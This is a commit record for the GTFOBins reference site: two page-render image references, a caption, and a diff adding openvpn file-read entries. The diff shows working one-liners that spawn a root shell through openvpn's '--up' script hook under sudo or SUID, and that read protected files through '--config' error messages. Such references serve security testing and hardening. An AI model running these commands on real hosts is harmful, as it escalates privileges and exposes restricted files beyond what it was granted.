

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/openvpn.md, in a window 1280 px wide. Shown: the whole page at 87% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add openvpn file-read
Related #171.

```diff
--- a/_gtfobins/openvpn.md
+++ b/_gtfobins/openvpn.md
@@ -1,10 +1,23 @@
 ---
 functions:
+  file-read:
+    - description: The file is actually parsed and the first partial wrong line is returned in an error message.
+      code: |
+        LFILE=file_to_read
+        openvpn --config "$LFILE"
   suid:
     - code: |
         ./openvpn --dev tun0 --script-security 2 --up '/bin/sh -p -c "sh -p"'
+    - description: The file is actually parsed and the first partial wrong line is returned in an error message.
+      code: |
+        LFILE=file_to_read
+        ./openvpn --config "$LFILE"
   sudo:
     - code: |
         COMMAND='id'
         sudo openvpn --dev tun0 --script-security 2 --up '/bin/sh -c sh'
+    - description: The file is actually parsed and the first partial wrong line is returned in an error message.
+      code: |
+        LFILE=file_to_read
+        sudo openvpn --config "$LFILE"
 ---
```
